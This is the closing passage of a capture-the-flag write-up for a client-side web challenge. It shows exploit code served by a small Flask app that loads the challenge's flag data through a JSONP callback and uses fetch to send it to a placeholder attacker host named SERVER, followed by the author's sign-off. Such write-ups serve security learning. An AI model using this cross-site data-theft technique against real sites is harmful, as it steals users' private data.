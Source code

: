 ```python
function load(data){
fetch("http://SERVER?a="+data.items.map(i => i).join(''));
}
var s=document.createElement("script");
s.src="https://jason.2021.chall.actf.co/flags?callback=load";
document.body.appendChild(s);
</script>
</body>
</html>

"""

@app.route('/')
def index():
        return """
<html>
<body>
<img src="/delay"/>
<script>
var w=window.open("/form","win");
window.open("/flag","hah");
</script>
</body> 
</html>
"""
if __name__=="__main__":
        app.run(port=1234, host="0.0.0.0")


```

And bingo we get our flag :

![TASK](https://imgur.com/xnOHIJp.png)


Unfortunately I couldn't try the last two challenges because of the lack of time ( school is the worst ) :'( I have really enjoyed the tasks especially the client side ones so kudos to the authors for these well designed challenges ! I hope you learned from the writeup , feel free to dm me on twitter if you have any questions!
